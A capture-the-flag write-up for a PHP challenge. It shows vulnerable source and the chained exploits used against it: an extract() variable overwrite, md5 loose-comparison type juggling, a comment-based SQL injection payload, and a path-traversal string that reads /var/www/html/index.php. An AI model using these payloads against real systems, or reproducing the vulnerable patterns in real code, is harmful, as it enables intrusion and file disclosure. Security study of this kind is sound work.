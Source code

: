 # Intigriti CTF — PhorrifyingP

PHP challenge having multiple vulnerabilities.
  - PHP extract method
  - Type juggling
  - SQL injection
  - LFI 

Source code provided by the challenge

```
<?php
/*
    <flag> ➡➡➡ ⛳🏁 ⬅⬅⬅ <flag>
*/
if ($_SERVER['REQUEST_METHOD'] == 'POST'){
    extract($_POST);

    if (isset($_POST['password']) && md5($_POST['password']) == 'put hash here!'){
        $loggedin = true;
    }

    if (md5($_SERVER['REMOTE_ADDR']) != '92d3fd4057d07f38474331ab231e1f0d'){
        header('Location: ' . $_SERVER['REQUEST_URI']);
    }

    if (isset($loggedin) && $loggedin){
        echo 'One step closer 😎<br>';

        if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action']){
            echo 'Really? 😅<br>';

            $db = new SQLite3('database.db');
            $sql_where = Array('1=0');

            foreach ($_POST as $key => $data) {
                $sql_where[] = $db->escapeString($key) . "='" . $db->escapeString($data) . "'";
            }

            $result = $db->querySingle('SELECT login FROM users WHERE ' . implode(' AND ', $sql_where));

            if ($result == 'admin'){
                echo 'Last step 🤣<br>';

                readfile(file_get_contents('php://input'));
            }
        }
    }
}
?>

```
###### Bypassing  loggedin condition

```
if (isset($loggedin) && $loggedin)
```
Here we will exploit **extract** method. **extract($_POST);**  

If you look at php documentation for extract method there is one warning
![image](https://user-images.githubusercontent.com/19681324/158346871-12c4984e-e546-49d3-9992-e98995d7f043.png)

So we can directly pass **loggedin=true** in the post request body to bypass this condition
![image](https://user-images.githubusercontent.com/19681324/158347129-4d2b5593-191c-4f22-bac9-76635e381288.png)


###### Exploiting type juggling
```
(isset($_GET['action']) && md5($_GET['action']) == $_GET['action'])
```
First condition checks for availability of the get parameter with name action and 2nd condition checks if md5 of get parameter is equal to get parameter value itself, which is not possible in any real world. But this is check is done using loose comparison, which can be exploited.

This [Link]https://github.com/bl4de/ctf/blob/master/2017/HackDatKiwi_CTF_2017/md5games1/md5games1.md here has exploited the same condition. A number which will satisfy this condition is 0e215962017. md5( 0e215962017 ) ---> 0e291242476940776845150308577824

PHP loose comparison will work as below
0e215962017 : will be interpreted as 0
md5( 0e215962017 ) ---> 0e291242476940776845150308577824 : will also be interpreted as 0
 
so there comparison will be true
![image](https://user-images.githubusercontent.com/19681324/158349729-391feef7-a24a-45eb-8341-2fb06c5bb808.png)

###### Exploiting SQL inection

```
  foreach ($_POST as $key => $data) {
                $sql_where[] = $db->escapeString($key) . "='" . $db->escapeString($data) . "'";
            }

            $result = $db->querySingle('SELECT login FROM users WHERE ' . implode(' AND ', $sql_where));
```

sql_were variable is created by retrieving the key and value coming in the post request. escapestring will convert the payload like **UNION+SELECT+"admin"** to **1_UNION_SELECT_** space is being converted to underscore.

However this can be bypassed. Also app uses querySingle which will return a single result, so if we can force the query to return just a single result i.e. admin we can bypass this. 

This can be done easily with the payload
```
1%3d2/**/UNION/**/SELECT/**/"admin"--=aaaa&loggedin=true
```
As you can see in the image we get Last step in the response

![image](https://user-images.githubusercontent.com/19681324/158352580-14f8130a-64f7-4c1f-91d3-9da8909decec.png)

###### Exploiting LFI

At the last of previous step we also saw an error
```
  readfile(1%3d2/**/UNION/**/SELECT/**/&quot;admin&quot;--=aaaa&amp;loggedin=true): failed to open stream: No such file or directory in <b>/var/www/html/index.php
```
All of the post parameter is directly being passed into the read file function. Now we can go up the directory to read index.php file with the ../ pattern

our final payload will be, which will give us the flag
```
1/**/UNION/**/SELECT/**/"admin"--=a&loggedin=true&test=/../../../../../../../../../../var/www/html/index.php
```
![image](https://user-images.githubusercontent.com/19681324/158353333-4570910e-aa29-46b9-ab62-dad66de1ccf6.png)




